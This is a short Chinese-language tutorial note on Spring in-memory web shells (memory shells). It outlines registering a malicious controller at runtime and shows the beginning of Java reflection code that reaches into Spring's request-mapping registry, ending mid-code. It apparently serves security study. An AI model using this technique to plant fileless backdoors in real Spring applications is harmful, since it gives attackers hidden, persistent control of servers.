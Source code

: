 Spring 内存马添加思路：

- 添加一个controler，里面实现自己的恶意代码逻辑
- 将controler映射到某个接口

学习项目 https://github.com/dk47os3r/SpringMemShell

下载项目并在tomcat中运行：

![1729001636269](image/【18】内存马专栏/1729001636269.png)

获取上下文代码：

```java
@Controller
public class TestController {

    @RequestMapping("/mappings")
    @ResponseBody
    public String mappings(){
        try {
            WebApplicationContext context = (WebApplicationContext) RequestContextHolder.currentRequestAttributes()
                    .getAttribute("org.springframework.web.servlet.DispatcherServlet.CONTEXT", 0);
            RequestMappingHandlerMapping rmhMapping = context.getBean(RequestMappingHandlerMapping.class);
            Field _mappingRegistry = AbstractHandlerMethodMapping.class.getDeclaredField("mappingRegistry");
            _mappingRegistry.setAccessible(true);
            Object mappingRegistry = _mappingRegistry.get(rmhMapping);

            Field _registry = mappingRegistry.getClass().getDeclaredField("registry");
            _registry.setAccessible(true);
            HashMap<Object,Object> registry = (HashMap<Object, Object>) _registry.get(mappingRegistry);

```